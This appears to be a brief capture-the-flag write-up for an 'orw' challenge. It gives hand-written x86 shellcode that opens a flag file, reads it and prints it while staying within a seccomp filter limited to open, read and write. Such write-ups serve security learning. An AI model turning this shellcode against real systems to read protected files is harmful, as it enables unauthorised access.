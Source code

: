 reversing
=========

- takes 200 bytes of shellcode and executes it
- calls orw_seccomp function which ensures only open, read, and write syscalls can be used (no execv)


exploitation
============

super simple. here is the shellcode i wrote:

```asm
push 0
push 0x67616c66 "ag"
push 0x2f2f2f77 "w/fl"
push 0x726f2f65 "e/or"
push 0x6d6f682f "/hom"

mov eax, 5
mov ebx, esp
xor ecx, ecx // O_RDONLY
xor edx, edx // file already exists
int 0x80

mov ebx, eax
mov eax, 3
mov ecx, 0x0804a060 // where our shellcode is stored
sub ecx, 50         // prob enough space
mov edx, 50         
int 0x80

mov eax, 4
mov ebx, 1
mov ecx, 0x0804a060
sub ecx, 50
mov edx, 50
int 0x80
```

